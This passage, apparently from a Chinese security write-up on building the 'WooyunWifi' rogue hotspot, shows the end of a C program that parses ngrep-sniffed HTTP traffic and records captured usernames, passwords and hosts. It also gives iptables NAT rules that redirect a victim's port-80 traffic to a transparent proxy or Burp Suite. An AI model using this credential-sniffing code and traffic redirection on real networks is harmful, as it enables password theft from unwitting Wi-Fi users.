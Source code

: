 ```
            strcpy(host,buffer);
        }
        else if(strstr(buffer,"user")&&strstr(buffer,"pass"))
        {
            //去掉0x0a和0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(pass,buffer);
        }
        //buffer[strlen(buffer)-2]='\0';
    }
    return 0;
}

```

概括起来我们的自动机做了以下事情：

1、 Ngrep嗅探PHP指定的device数据包，筛选80端口HTTP请求，然后把stdout转接到我们的自动机stdin上 2、 C语言自动机不断按行读取stdin中的输入，不停检测密码信息以及Host信息，但数据包结束后，判断是否截获密码信息，如果是，追加写入文本记录文件 3、 自动机本身不会停止工作，必须依靠PHP+Shellscript来外部kill掉

0x04 为什么不用python：
-----------------

* * *

字符处理，还是python方便，但是我们真的很需要“效率”，无论是从内存占用还是数据包延迟来说，C语言仍然占据了不可替代的优势（其实也没那么悬殊，只不过自动机程序比较简单，因此对C熟练的话不会很吃力） 还有一个重要的原因是：当初我以为会涉及到kernel的数据包修改，后来写完自动机才发现原来想多了，所以C语言反倒只用来写了几个自动机，唉……

0x05 使用iptables重定向流量
--------------------

例：

```
iptables -t nat -A PREROUTING -s 192.168.16.249 -p tcp --dport 80 -j DNAT --to-destination 192.168.16.134:8029
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 80 -j MASQUERADE
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 8029 -j MASQUERADE

```

由此一方面可以将流量重定向到自己的proxy上（是transparrent proxy），也可以直接转发到其他ip（如burpsuite）

至此，WooyunWifi设计完成，大家可能会觉得“哇，还是很简单的嘛”，如果大家真的打算试一下全过程，请务必要看《WooyunWifi 第五章：十万个变砖方法》
